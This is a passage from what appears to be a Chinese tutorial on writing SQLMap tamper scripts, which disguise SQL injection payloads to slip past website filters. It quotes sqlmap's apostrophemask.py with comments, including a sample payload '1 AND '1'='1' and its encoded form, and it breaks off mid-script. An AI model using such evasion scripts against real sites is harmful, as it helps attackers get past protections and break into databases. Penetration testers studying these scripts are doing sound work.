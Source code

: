 成功。

## 编写tamper

当我们下载了SQLMap，解压后，我们可以找到文件夹【tamper】，该文件夹有很多个Tamper脚本帮助我们绕过一些安全防护：

![](https://gitee.com/fuli009/images/raw/master/public/20230222180231.png)

网上有很多相关脚本的介绍，我就不一一介绍了。

虽然SQLMap提供了这么多的Tamper脚本，但是在实际使用的过程中，网站的安全防护并没有那么简单，可能过滤了许多敏感的字符以及相关的函数。这个时候就需要我们针对目标的防护体系构建相应的Tamper脚本。

Tamper相当于一个加工车间，它会把我们的Payload进行加工之后发往目标网站。

我们随便打开一个Tamper脚本看一下它的结构：

    
    
    #apostrophemask.py  
      
    #!/usr/bin/env python  
      
    """  
    Copyright (c) 2006-2021 sqlmap developers (http://sqlmap.org/)  
    See the file 'LICENSE' for copying permission  
    """  
    # 导入SQLMap中lib\core\enums中的PRIORITY优先级函数  
    from lib.core.enums import PRIORITY  
    # 定义脚本优先级  
    __priority__ = PRIORITY.LOWEST  
      
    # 对当前脚本的介绍  
    def dependencies():  
        pass  
      
    '''  
    对传进来的payload进行修改并返回  
    函数有两个参数。主要更改的是payload参数，kwargs参数用得不多。  
    '''  
    def tamper(payload, **kwargs):  
        """  
        Replaces apostrophe character (') with its UTF-8 full width counterpart (e.g. ' -> %EF%BC%87)  
      
        References:  
            * http://www.utf8-chartable.de/unicode-utf8-table.pl?start=65280&number=128  
            * https://web.archive.org/web/20130614183121/http://lukasz.pilorz.net/testy/unicode_conversion/  
            * https://web.archive.org/web/20131121094431/sla.ckers.org/forum/read.php?13,11562,11850  
            * https://web.archive.org/web/20070624194958/http://lukasz.pilorz.net/testy/full_width_utf/index.phps  
      
        >>> tamper("1 AND '1'='1")  
        '1 AND %EF%BC%871%EF%BC%87=%EF%BC%871'  
        """  
      
